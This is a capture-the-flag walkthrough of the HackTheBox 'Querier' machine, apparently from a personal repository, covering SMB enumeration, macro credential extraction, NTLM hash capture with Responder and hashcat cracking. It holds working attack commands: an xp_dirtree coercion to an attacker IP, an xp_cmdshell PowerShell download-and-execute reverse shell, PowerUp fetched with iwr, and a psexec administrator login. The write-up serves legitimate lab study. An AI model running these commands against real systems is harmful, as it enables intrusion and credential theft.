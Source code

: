 # Querier [htb](https://app.hackthebox.com/machines/Querier)
![querier-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/querier-01.png)


## Recon 

Lets start by adding the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/hosts-02.png)

With that out of the way, we can start enumerating:

`nmap -sC -sV -p- -A querier.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/nmap-res-03.png)

We have the following:

+ RPC endpoint mapper on port 135.
+ netBIOS on port 139.
+ SMB on port 445.
+ Microsoft SQL server on port 1433.
+ HTTP-API on ports 5985 & 47001.
+ Other RPC related ports. 


The services that jump out the most to me are the SQL and SMB servers. Lets start by taking a look at the SMB though, maybe its misconfigured and we can access information we shouldn't. After that we'll take a look at the SQL server. 


## SMB port 445

Lets try to list out the SMB shares with a null session:

`smbclient -N -L \\\\querier.htb\\`

![shares-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/shares-04.png)

A null session is accepted, ideally this should not happen. Lets try to connect to the `Reports` share:

![smb-connect-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/smb-connect-05.png)

We can see the share hosts a single `.xlsm` file, this is a Microsoft Excel file. 
I use the following code to open the file on Linux:

```python
#!/usr/bin/python3

import sys
import pandas as pd

if len(sys.argv) != 2:
    print(f'Usage {sys.argv[0]} <input_xlsm_file>')
    sys.exit()

df = pd.read_excel(sys.argv[1], sheet_name=None)

for k,v in df.items():
    print(f'{k} = {v}')
```

However the file is empty: 

![empty-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/empty-06.png)

If we open the file through a Windows machine and click on `File`:

![button-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/button-07.png)


We can see the following:

![luis-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/luis-08.png)

At first i thought `Luis` is a username, and tried brute-forcing my way into the SQL server. This failed. 
So i decided to inspect the file by clicking the highlighted button which resulted in:

![inspect-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/inspect-09.png)

It says that the file has Maros configured. A macro is an action or a set of actions that can be recorded, named, saved and executed as many times as required and whenever desired. In other words its code. 

We can extract the macro code in clear text with a tool called [olevba](https://github.com/decalage2/oletools/wiki/olevba). You can download it with:

`sudo -H pip install -U oletools`

Once we have it installed we can extract the Macro code with:

`olevba 'Currency Volume Report.xlsm'`

![olevba-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/olevba-10.png)


This is an [SQL connection string](https://learn.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection.connectionstring?view=dotnet-plat-ext-7.0), the `Uid` is a username, and the `Pwd` is the password. 

Lets try to login to the SQL server with:

`impacket-mssqlclient reporting@querier.htb -windows-auth`

![sql-login-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/sql-login-11.png)

Were in! I tried enumerataing the database, as well as trying to pull off RCE, nothing worked for me. [source](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).

Our user has very little permissions on the server, and there isn't much to see on the database. 
I also tried using the credentials we found with `impacket` tools like `psexec`, `wmiexec`, etc. Nothing worked for me. 

So i decided to try a MITM attack to capture the `mssql-svc` service account NTLM hash. 
To do this we need to run `responder` on our kali machine:

`responder -I tun0 -dwv`

Then, in the SQL prompt, we need to tell the server to fetch a file from our kali via SMB. There is no file or SMB server on 
our kali, but in the process, the SQL server service itself well send over its NTLM
hash which we will capture with `responder`. (These sorts of attacks are more common in AD environments).

Once `responder` is running, on the SQL server execute the following:

`xp_dirtree '\\<attacker_IP>\any\thing'`


Now check responder: 

![responder-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/responder-12.png)

Lets crack it. 


First save it to a file:

![hash-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/hash-13.png)


Now we can use `hashcat` to crack NTLMv2 hashes as such:

`hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o mssql-svc.pass`


The hash gets cracked rather quickly:

![cracked-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/cracked-14.png)

Lets log back in to the SQL server with the new account, now we should be able to pull of an RCE. 

The first we need is a reverse shell script, i will [nishang's](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1`.

Copy this script over to your working directory, open it, and add the following at the end:

`Invoke-PowerShellTcp -Reverse -IPAddress <kali-ip> -Port 9001`


Next, over at the SQL server we need to enable advanced options:

`sp_configure 'show advanced options', '1'`
`RECONFIGURE`


Now we can enable command execution with:

`sp_configure 'xp_cmdshell', '1'`
`RECONFIGURE`

On your kali start a python server:

`python3 -m http.server 80`

Start the listner: 

`nc -lnvp 9001`


Now we are ready to execute, on the SQL server run:

`EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://<kali-ip>/shell.ps1") | powershell -noprofile'`


Get a shell:

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/shell-15.png)


## Privilege Escalation


Lets cd into a directory we can work with:

`cd C:\Users\mssql-svc\appdata\local\temp`

From here, we can download and run [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). 
Once you have the script on you kali start a python server:

`python3 -m http.server 80`

From the target, download the script with:

`iwr http://kali-ip/PowerUp.ps1 -OutFile powerup.ps1`

Start a Powershell session and load the script with:

```cmd
powershell -ep bypass
. .\powerup.ps1
Invoke-AllChecks
```

![admin-pass-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Querier/img/admin-pass-16.png)

There are a lot of leads we can take from the PowerUp output, but i think this is the easiest. 

All we need to do is use `psexec`:

`impacket-psexec QUERIER/Administrator:'MyUnclesAreMarioAndLuigi!!1!'@querier.htb`

![root-17]()
